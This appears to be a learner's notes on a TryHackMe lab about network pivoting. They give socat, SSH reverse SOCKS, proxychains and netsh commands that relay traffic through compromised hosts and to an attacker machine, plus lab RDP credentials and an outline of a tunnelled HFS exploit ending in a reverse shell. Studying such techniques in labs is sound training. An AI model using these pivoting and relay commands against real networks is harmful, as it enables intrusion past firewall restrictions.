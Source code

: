 ![[d7128a0e5d344785ed570c2b8b90c775.png]]

`netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389` - You might need to add a firewall rule to allow any connections to that port.

`socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80` - Expose port 80 from the attacker's machine so it's reachable by the server, PC-1 will spawn port 80 and forwards the connections to that port to the attacker machine.

![[4874c8eb2e92a55b93c3dbbc2409e54b.png]]

##### Dynamic Port Forwarding and SOCKS

If we need to run scans against multiple ports of a host or even multiple host, we can use dynamic port forwarding to pivot trough a host and establish several connections to any IP address / ports we want by using SOCKS proxy.

`ssh tunneluser@1.1.1.1 -R 9050 -N` - Establish a reverse dynamic host, the SSH server will start a SOCKS proxy on port 9050 and forward any connection request trough SSH tunnel, where they are finally proxied by the SSH client.

We can easily use any of our tools through the SOCKS proxy using proxychains, we need to first make sure proxychains is configured correctly to point any connection to the same port used by SSH for SOCKS proxy server, the configuration file can be found at `/etc/proxychains.conf`, at the end there is a line that indicates the port in use for socks proxy.

```shell-session
[ProxyList]
socks4  127.0.0.1 9050
```

The default is 9050, now to execute commands:

`proxychains curl http://pxeboot.za.tryhackme.com`

Some software like Nmap might don't work so well trough proxychains.

##### Let's Get to Work

`socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389` - Example of using socat to be able to run RDP.

`xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020` - Now you can connect with RDP.

##### Tunneling Complex Exploits

The THMDC server is running a vulnerable version of Regetto HFS, with firewall restrictions the vulnerable port can only be accessed from THMJMP2, outbound connections from THMDC are only allowed machines in the local network so a reverse shell directly to the attacker machine is impossible. To make things worse the exploit requires the attacker to host an HTTP server to trigger the final payload, so we need to find a way to host the HTTP server in one of the machines in the same network which isn't convenient, with port forwarding we can overcome all of this.

The exploit will first connect to the HFS port to trigger a second connection that will be made against the attacker's machine  on `SRVPORT`, where a web server will deliver the final payload, which will execute and send back a reverse shell to the attacker.
